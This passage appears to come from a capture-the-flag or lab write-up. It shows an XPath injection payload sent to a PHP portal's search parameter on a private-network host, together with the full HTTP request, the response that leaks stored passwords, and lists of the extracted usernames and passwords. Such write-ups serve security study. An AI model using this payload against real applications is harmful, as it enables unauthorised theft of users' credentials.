 ### Exploitation

Send the payload `')]/password+|+a[contains+(a,'` to extract passwords from the application.

#### Request

```text
GET /portal.php?work=car')]/password+|+a[contains+(a,'&action=search HTTP/1.1
Host: 192.168.196.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.196.202/portal.php?work=car&action=search
Cookie: PHPSESSID=e46fk6dmcbj9r807ojgflhej0e
Upgrade-Insecure-Requests: 1
```

#### Response

```html
<table align="center" height="40" background-color="#92f0ff">
<tr height="40" bgcolor="#17ffb7" align="center">
<td width="200"><b>Search users by services: </b></td>
</tr>
XML Error; No car')]/password | a[contains (a,' entity found
<tr height="40" bgcolor="#c8dbde" align="center">
<td>1</td>
<td width="200"><b>Iamrockinginmyroom1212</b></td>
</tr>         
<tr height="40" bgcolor="#c8dbde" align="center">
<td>2</td>
<td width="200"><b>iamarabbitholeand7875</b></td>
</tr>         
<tr height="40" bgcolor="#c8dbde" align="center">
<td>3</td>
<td width="200"><b>johnloveseverontr8932</b></td>
</tr>         
</table> 
```

### Users

```text
alice
bob
john
```

### Passwords

```text
Iamrockinginmyroom1212
iamarabbitholeand7875
johnloveseverontr8932
alreadydead$%^234
lasagama90809!@
```
